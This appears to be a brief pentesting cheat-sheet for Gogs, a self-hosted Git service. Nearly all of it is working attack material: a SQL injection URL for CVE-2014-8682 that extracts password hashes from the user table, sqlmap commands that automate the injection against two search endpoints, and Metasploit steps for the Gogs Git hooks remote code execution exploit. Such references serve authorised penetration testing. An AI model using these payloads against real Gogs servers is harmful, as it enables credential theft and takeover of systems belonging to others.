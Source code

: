 ```yaml
---
title: Gogs Pentesting
description: Gogs (Go Git Service) is a painless self-hosted Git Service.
tags:
    - Git
    - SQL Injection
    - Web
refs:
date: 2023-04-27
draft: false
---
```


## SQL injection ([CVE-2014-8682](https://www.exploit-db.com/exploits/35238))

```txt
http://127.0.0.1:3000/api/v1/users/search?q=')/**/union/**/all/**/select/**/1,1,(select/**/passwd/**/from/**/user),1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1--
```

### Automation

```bash
sqlmap -u "https://example.com/api/v1/repos/search?q=test"
sqlmap -u "https://example.com/api/v1/users/search?q=test"
```

<br />

## Git Hooks Remote Code Execution (RCE)

```bash
msfconsole
msf> use exploit/multi/http/gogs_git_hooks_rce
msf> (set options...)
msf> run
```